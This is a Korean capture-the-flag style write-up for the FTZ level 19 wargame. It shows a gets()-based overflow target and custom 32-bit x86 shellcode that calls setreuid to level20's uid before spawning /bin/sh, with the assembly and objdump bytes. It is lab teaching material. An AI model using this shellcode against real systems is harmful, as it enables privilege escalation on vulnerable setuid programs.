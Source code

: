 ```yaml
---
title: "Custom Shellcode(with. setreuid)"
tags: [shellcode]
categories: [System]
---
```


표준 25byte shellcode에 기능 추가하기
-------------------------------------

1. [Problem](#개요)
2. [Solve](#문제해결)
3. [Additional](#additional)

## 개요

FTZ 19번 문제는 다음과 같이 짧은 코드로 구성되어 있었습니다.

```c
main()
{ 
  char buf[20];
  gets(buf);
  printf("%s\n",buf);
}
```

setuid를 통해 level20 계정의 권한으로 설정되어 있긴 하였지만 가장 기본적으로 사용할 수 있는 25byte shellcode를 사용하였을 때 shell이 level19의 권한으로 실행되는 것을 확인할 수 있었습니다.

별도의 함수가 존재하지 않기에 처음에는 my-pass 명령을 직접적으로 전달하도록 시도해보려고 하였으나 마땅한 방법을 찾지 못하여 setreuid 함수를 통해 level20의 권한으로 실행되도록 shellcode를 변경하였습니다.

## 문제해결

변경한 shellcode의 경우 다음과 같이 작성하였습니다.

```
section .text
        global _start

_start:
        mov bx, 0xc1c
        mov cx, 0xc1c
        mov al, 0x46
        int 0x80
        xor eax, eax 
        push eax 
        push 0x68732f2f
        push 0x6e69622f
        mov ebx, esp 
        push eax 
        push ebx 
        mov ecx, esp 
        mov edx, eax 
        mov al, 0xb 
        int 0x80
```

FTZ의 환경인 32bit에 맞춰서 제작하였으며 시작 부분에서 첫 번째 `int 0x80` 까지가 추가한 부분입니다. 처음에는 setuid 함수를 사용한 코드를 참조하여 작성하였으나 [링크](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit)의 call table에서 setuid를 찾을 수 없어 유사한 setreuid를 사용하였습니다.

setreuid를 호출할 때 ebx는 ruid, ecx는 euid의 값을 지정해주면 된다는 것도 call table 링크에서 확인할 수 있었습니다. 각각 level20의 uid인 3200을 16진수로 표기한 0xclc 값을 할당해주었습니다.

## Additional

처음에는 ebx, ecx에 값을 넣어주었는데 컴파일을 완료한 후 objdump로 확인했을 때 NULL 값이 포함되어 있길래 bx, cx로 바꿔 해결하였습니다.

위 사항을 수정 후에 최종적으로 아래와 같이 완성되었습니다.

```
08048060 <_start>:
 8048060:	66 bb 1c 0c          	mov    $0xc1c,%bx
 8048064:	66 b9 1c 0c          	mov    $0xc1c,%cx
 8048068:	b0 46                	mov    $0x46,%al
 804806a:	cd 80                	int    $0x80
 804806c:	31 c0                	xor    %eax,%eax
 804806e:	50                   	push   %eax
 804806f:	68 2f 2f 73 68       	push   $0x68732f2f
 8048074:	68 2f 62 69 6e       	push   $0x6e69622f
 8048079:	89 e3                	mov    %esp,%ebx
 804807b:	50                   	push   %eax
 804807c:	53                   	push   %ebx
 804807d:	89 e1                	mov    %esp,%ecx
 804807f:	89 c2                	mov    %eax,%edx
 8048081:	b0 0b                	mov    $0xb,%al
 8048083:	cd 80                	int    $0x80
```
